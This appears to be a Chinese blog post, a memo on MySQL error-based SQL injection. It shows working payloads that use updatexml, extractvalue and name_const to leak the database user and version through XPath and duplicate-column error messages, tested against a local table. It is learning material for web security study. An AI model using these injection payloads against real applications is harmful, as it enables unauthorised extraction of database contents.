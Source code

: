 ```yaml
---
layout: post
title:  "SQL报错注入"
date:   2018-01-06 21:41:45 +0800
categories: [SQL注入, 报错注入]
---
```


>本来在上一篇文章中本来说了要把报错注入和出错的原因写完的，但是想了下大多数的报错并不像双查询报错那样原理复杂，很多只是函数的问题，所以这一篇就单纯的作为报错的备忘录，稍带原理

1.**Updatexml报错**
```mysql
mysql> help updatexml
Name: 'UPDATEXML'
Description:
Syntax:
UpdateXML(xml_target, xpath_expr, new_xml)

This function replaces a single portion of a given fragment of XML
markup xml_target with a new XML fragment new_xml, and then returns the
changed XML. The portion of xml_target that is replaced matches an
XPath expression xpath_expr supplied by the user.

If no expression matching xpath_expr is found, or if multiple matches
are found, the function returns the original xml_target XML fragment.
All three arguments should be strings.

URL: http://dev.mysql.com/doc/refman/5.7/en/xml-functions.html

Examples:
mysql> SELECT
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/a', '<e>fff</e>') AS val1,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/b', '<e>fff</e>') AS val2,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '//b', '<e>fff</e>') AS val3,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val4,
    ->   UpdateXML('<a><d></d><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val5
    -> \G

*************************** 1. row ***************************
val1: <e>fff</e>
val2: <a><b>ccc</b><d></d></a>
val3: <a><e>fff</e><d></d></a>
val4: <a><b>ccc</b><e>fff</e></a>
val5: <a><d></d><b>ccc</b><d></d></a>
```
可见函数要求第二个参数为xpath格式的字符串，否则就爆出符号错误
```mysql
mysql> select * from users where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```
2 . **Extractvalue报错**
这个函数和updatexml一样，都是对xml格式数据进行操作，第二个参数也为xpath格式字符串，具体可以help
```mysql
mysql> select * from users where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```
3 . **Name_const报错**
首先在这里补一个背景知识
1. 在4.1版本后的mysql中支持subquery：也就是一个查询的结果可以作为另一个查询的from对象，可以说是像这样（select * from(select * from a)x）嵌套查询，这里的x是as x的意思也就是alias，子查询需要alias成一个符号才不会报错

ok，先来看看name_cast的help文档
```mysql
mysql> help name_const
Name: 'NAME_CONST'
Description:
Syntax:
NAME_CONST(name,value)

Returns the given value. When used to produce a result set column,
NAME_CONST() causes the column to have the given name. The arguments
should be constants.

mysql> SELECT NAME_CONST('myname', 14);
+--------+
| myname |
+--------+
|     14 |
+--------+

URL: http://dev.mysql.com/doc/refman/5.7/en/miscellaneous-functions.html
```
这是根据name和value生成一个column的函数，结合前面的背景知识我们可以试图构造出和双查询类似的具有相同key值的错误，不过可惜这个利用在高版本中被要求为constants，不然就会先报这个错误，等于是加了个检测，但是在下面的测试中我发现有意外
```mysql
mysql> select * from users where id=1 and (select * from (select name_const(version(),1),name_const(version(),1))a);
ERROR 1060 (42S21): Duplicate column name '5.7.17'
mysql> select * from users where id=1 and (select * from (select name_const(database(),1),name_const(database(),1))a);
ERROR 1210 (HY000): Incorrect arguments to NAME_CONST
mysql> select * from users where id=1 and (select * from (select name_const((select 1),1),name_const((select 1),1))a);
ERROR 1210 (HY000): Incorrect arguments to NAME_CONST
```
发现了吧 version()还是可以爆出来的...

还有一些网上写的函数发现本地没有爆出来，就暂时不写上来了，下一篇盲注